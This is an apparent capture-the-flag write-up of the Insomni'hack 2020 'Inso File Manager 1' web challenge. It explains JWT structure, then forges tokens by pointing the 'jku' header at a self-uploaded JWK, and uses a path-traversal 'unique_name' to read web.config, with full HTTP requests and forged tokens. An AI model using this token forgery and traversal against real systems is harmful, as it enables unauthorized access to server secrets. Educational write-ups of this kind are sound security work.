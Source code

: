 ```yaml
---
title: "Insomni'hack teaser 2020 - Inso File Manager 1 (Web)"
date: 2020-01-21T13:37:00+01:00
author: "SlaxXx"
description: "Challenge writeup: 'filemanager 1'@Insomnia'hack teaser 2020"
---
```

***TL;DR***
Dont trust user suppplied data, don´t screw up your jwt validation.

# Understanding the application
The Ino Filemanager lets us, after registration, upload files and make them publicly available. 

After registering a user and logging in, we observed that we were issued a JSON Web Token (*JWT*).
The JWT will be stored in the local storage of the used browser and it will be transmitted with every request to the server.

```
{"Id":0,"Guid":"69a96f63-cc31-4a42-bcf8-03b3e9705428","Username":"SlaxXx","Password":null,"Token":"eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjY5YTk2ZjYzLWNjMzEtNGE0Mi1iY2Y4LTAzYjNlOTcwNTQyOCIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ3MjQwLCJleHAiOjE1ODAyNTIwNDAsImlhdCI6MTU3OTY0NzI0MH0.aqEGHdNOaw-qcToTQkqdTvws2boYydo7wZVYJPWzjcvbEzWslsHUlyBD2yHdPj3iyPfc2p3KpTDfCRMRNoTjSyx7n6s-2N143fZ22EuD7kaSgGOuFbqs3SD0_Ot7LzVcwYJfVCUFiFC5Xw4gcwnuSraCp9x0gNtdEJCzDN5weMvH1qy6bBnm3wGDvfWBxXqho2hAqO5bOAqyBf_jZK0JKUvchQ62jEKMjcK97qBSfEY_RTAwVJYHvyspajvfbep9RWnW0rOqX22FsxHp0uJfK9WUiQFYGMl9Fal3I49qD4Cd42sLZ3ncD0IFepKDSxb5gGhf5fa3ZfPOmwOKTbKsPw","Role":"User"}
```
We decoded the JWT with the help of [jwt.io](https://jwt.io).
For more informations about JSON Web Tokens visit [JWT introduction](https://jwt.io/introduction/) or the offical [RFC](https://tools.ietf.org/html/rfc7519#section-4.1.4).
The decoded parts are as follows:

## Header
```
{
  "alg": "RS256",
  "kid": "inso20",
  "typ": "JWT",
  "jku": "https://filemanager.insomnihack.ch/jwk.json"
}
```
``"alg": "RS256"``: The algorithm used to sign the JWT is RSA256. The token is signed by a private key and validated against the corresponding public key.  

``"kid": "inso20"``: The id of the used key is *inso20*. 

``"typ": "JWT"``: This is a JSON Web Token... duh... 

``"jku": "https://filemanager.insomnihack.ch/jwk.json"``: The public key to validate the token signature can be found at *https://filemanager.insomnihack.ch/jwk.json*

## Payload
```
{
  "unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428",
  "role": "User",
  "nbf": 1579647240,
  "exp": 1580252040,
  "iat": 1579647240
}
```
``"unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428"``: This seems to be a unique id generated for the registered user by the application. This will 

``"role": "User"``: A role assigned to the registered user. 

``"nbf": 1579647240``: The *nbf* (not before) claim identifies the time before which the JWT MUST NOT be accepted for processing. 

``"exp": 1580252040``: The *exp* (expiration time) claim identifies the expiration time on or after which the JWT MUST NOT be accepted for processing

## Signature
From the header section, we now know that the algorithm used to sign the JWT is RSA256 and the public certificate to validate the signature can be found at *https://filemanager.insomnihack.ch/jwk.json*.

Accessing the public reveals, that indeed the ``kid`` id is *inso20*. 

```
{
  "kty": "RSA",
  "e": "AQAB",
  "alg": "RS256",
  "kid": "inso20",
  "n": "kE2FzXws8q2GnkNaQsQBIcSe0zZsxRe35V5rCXJRX9A1J5NCHoZiJS4LFDJW3n7Z5yNdntCKk9L7wYkOAxNiqPQHWuIk4Nyg3ZViZJLbO0fyx3eq-FSYhcfIePzD9Uz1ZgjBwavUi3ya8WoMv5ffG89OeTiVy7E1M-f7ykm205Nl11wrWXyyIWiyhchTl5baZzf3xLy-zn1s9yC2z13XOst-5pde4kfntIadYcdg9__VpYo6-k5sdpTlK7jPpKfUhfmRudgdf8Q37vLT5WlGFt-zh_D_QcNqc0heb4dhwgpgaqu-NJ7n6MJn6TDXes2qb-aLDFpwlJv9qULy7UdEDw"
}
```
We also see that the public key is in the JSON Web Key (JWK) format, informations regarding the JWK can be found in the offical [RFC](https://tools.ietf.org/html/rfc7517). 

The file manager of course also has an upload function.
![upload](/img/upload.jpg)
The upload will result in the http request below
```
POST /api/Files/Upload HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjA4ZWZmMTdhLWNkOWYtNGVhZC04MjcxLTc3Y2VhN2QxZWM1YyIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ5NzkzLCJleHAiOjE1ODAyNTQ1OTMsImlhdCI6MTU3OTY0OTc5M30.ZpZ8UX_UmW7_w4RgGIzIc2FiXtKdDPo-kUO-prQNnar_qRl1McIsbhV4lAvVSl7Fp48WXDdaMn7uqStFDAUQUo3psZX4mvoQ2tIxT7ealcbHQHg3HaM04Na6zaH-qFtlNRR5C1SryMdDiiZ-HECiA2dd87aDv3qDYFkw1h16AkO8I83CYkIuHoDWa6O8VQi8QB-3uqefZMNTnb9-NiYGmYqdsea_2wgP2lFEFp15eyqQy825Bw1QJK3nTJx1DlwZPF5ayzFnWOD2ADpkXH5ybT4Xi5lxXz7g_LoWCn_bg85vuXG05eDMWerU38j3pW9VBuVmyiWuU0PBJeLSbCJodg
Content-Type: application/json;charset=utf-8
...SNIP...

{"filename":"Sharkzwithlazers.pizza","content":"eW9sb1Bpenph"}
```
The previously received token is now transferred in the ``Authorization`` Header.
Filename and base64 encoded file content are transmitted in the json request body.
Once transmitted the server responses with a generated unique id.
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
...SNIP...

"7db3bf68-f007-445c-8f42-c3802ec39738"
```
Once uploaded we can click on the uploaded file to get the stored content, see screenshot below.
![getContent](/img/getContent.jpg)
The click resultet in the http request below 
```
GET /api/Files/GetFile/7db3bf68-f007-445c-8f42-c3802ec39738 HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvandrLmpzb24ifQ.eyJ1bmlxdWVfbmFtZSI6IjA4ZWZmMTdhLWNkOWYtNGVhZC04MjcxLTc3Y2VhN2QxZWM1YyIsInJvbGUiOiJVc2VyIiwibmJmIjoxNTc5NjQ5NzkzLCJleHAiOjE1ODAyNTQ1OTMsImlhdCI6MTU3OTY0OTc5M30.ZpZ8UX_UmW7_w4RgGIzIc2FiXtKdDPo-kUO-prQNnar_qRl1McIsbhV4lAvVSl7Fp48WXDdaMn7uqStFDAUQUo3psZX4mvoQ2tIxT7ealcbHQHg3HaM04Na6zaH-qFtlNRR5C1SryMdDiiZ-HECiA2dd87aDv3qDYFkw1h16AkO8I83CYkIuHoDWa6O8VQi8QB-3uqefZMNTnb9-NiYGmYqdsea_2wgP2lFEFp15eyqQy825Bw1QJK3nTJx1DlwZPF5ayzFnWOD2ADpkXH5ybT4Xi5lxXz7g_LoWCn_bg85vuXG05eDMWerU38j3pW9VBuVmyiWuU0PBJeLSbCJodg
...SNIP...

```
The previously received id ``7db3bf68-f007-445c-8f42-c3802ec39738`` is now used to access the file content.

Besides uploading and viewing files it is also possible to make files publicly available.
After ticking the *public* checkbox a publicly available url is generated where everyone can access the uploaded file.
![set public](/img/public.jpg)
If we disect the public url `.../api/files/public/7db3bf68-f007-445c-8f42-c3802ec39738/08eff17a-cd9f-4ead-8271-77cea7d1ec5c` we can see that the first dynamic part `7db3bf68-f007-445c-8f42-c3802ec39738` is the generated file id and the second is the `"unique_name": "69a96f63-cc31-4a42-bcf8-03b3e9705428"` from our JWT.



Enough talking let`s get hacking.

# Exploit
![letsGo](/img/letsgo.png)

First, we noticed, that we can control the `jku` from the JWT.
If we entered another url, for example https://sharkzwithlazers.pizza the request will hang for a significant amount of time until it fails.
However we didn´t receive an http request on our server, our guess was that external communication was not possible.
But since we are able to publish files on the filemanager itself we can simply upload a JWK file there and publish it.
To create such a JWK file we used [jwt.io](https://jwt.io/) to create a *RS256* signet JWT token.  
The site autogenerates private and public key for the created JWT.
The public key must be converted from the PEM format used by jwt.io to JWK format.
This is done by using [this site](https://irrte.ch/jwt-js-decode/pem2jwk.html). 
To make the key id of the server and the JWT match, we had to add the keyid to the JWK.
The generated JWK can be seen below and also downloaded [here](/docs/sharkz.jwk):
```
{
    "kty": "RSA",
    "kid": "inso20",
    "n": "nzyis1ZjfNB0bBgKFMSvvkTtwlvBsaJq7S5wA-kzeVOVpVWwkWdVha4s38XM_pa_yr47av7-z3VTmvDRyAHcaT92whREFpLv9cj5lTeJSibyr_Mrm_YtjCZVWgaOYIhwrXwKLqPr_11inWsAkfIytvHWTxZYEcXLgAXFuUuaS3uF9gEiNQwzGTU1v0FqkqTBr4B8nW3HCN47XUu0t8Y0e-lf4s4OxQawWD79J9_5d3Ry0vbV3Am1FtGJiJvOwRsIfVChDpYStTcHTCMqtvWbV6L11BWkpzGXSW4Hv43qa-GSYOD2QU68Mb59oSk2OB-BtOLpJofmbGEGgvmwyCI9Mw",
    "e": "AQAB"
}
```
Next we saved the created JWK to a file and uploaded it to the filemanager and used the publish funtion to make it publicly available.
Once uploaded we changed ``jku`` to point to out uploaded JWK.
```
{
  "alg": "RS256",
  "kid": "inso20",
  "typ": "JWT",
  "jku": "https://filemanager.insomnihack.ch/api/files/public/d8715758-9adb-4d3b-8015-e4029ba43e7f/79a3696b-97f6-4132-9f82-ca1f42f34ff2"
}
```
Since the server is now checking the JWT against our JWK we can change it to our liking and sign it using the known private key.
We have done this using jwt.io, see screenshot below.
![jwtToken](/img/jwtio.jpg)
This means we can send any ``unique_name`` inside the JWT and the server will accept it. As far as we know, the ``unique_name`` is part of the file structure and will probably be the folder where our user's files are stored.
Next we tried accessing the *web.config* by issuing the below *GetFile* request.
We created a token where the ``unique_name``  is set to ``..\\..\\..\\..\\inetpub\\wwwroot`` and the requested file to ``web.config``.
```
GET /api/Files/GetFile/web.config HTTP/1.1
Host: filemanager.insomnihack.ch
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Imluc28yMCIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vZmlsZW1hbmFnZXIuaW5zb21uaWhhY2suY2gvYXBpL2ZpbGVzL3B1YmxpYy9kODcxNTc1OC05YWRiLTRkM2ItODAxNS1lNDAyOWJhNDNlN2YvNzlhMzY5NmItOTdmNi00MTMyLTlmODItY2ExZjQyZjM0ZmYyIn0.eyJ1bmlxdWVfbmFtZSI6Ii4uXFwuLlxcLi5cXC4uXFxpbmV0cHViXFx3d3dyb290Iiwicm9sZSI6IlVzZXIiLCJuYmYiOjE1Nzk2NDcyNDAsImV4cCI6MTU4MDI1MjA0MCwiaWF0IjoxNTc5NjQ3MjQwfQ.bxV1lHqgleVRCNH9XqEWKehR3ffI5gA3Woi3T4Dheihwfw3dRx6Ge_ewfdhRZJSHnxt4l9QEJiZqiEEz_dxlsJlePg1cdypX5bJdvxfvmvqo2LGlfFRkZr26CIdTZf4NWB4PJkPb82GcVLghh-_ugNxIxRTSp2oVKWiIoBLQJgEp27bjW-ZYMzXuV0QDmq5vQRKcwwVH5l2z0s7uHNCzSMye3B6D59Wb377RQEvWaEpfVgVAwffV6igXWjluQJFEcEd_3yv60bPMRiLykZB9LpUxqugAih3huuCZRfRsGvzTkVrST0sFJd0b5scQxRah9zduM3U7BfXov89TiP42jg
...SNIP...

```
With this request we were able to read the *web.config* which contained the flag.
Unfortunately I forgot to take screenshots or store the requests of the response so I´m not able to show you that it worked. \*sad face intensivies\*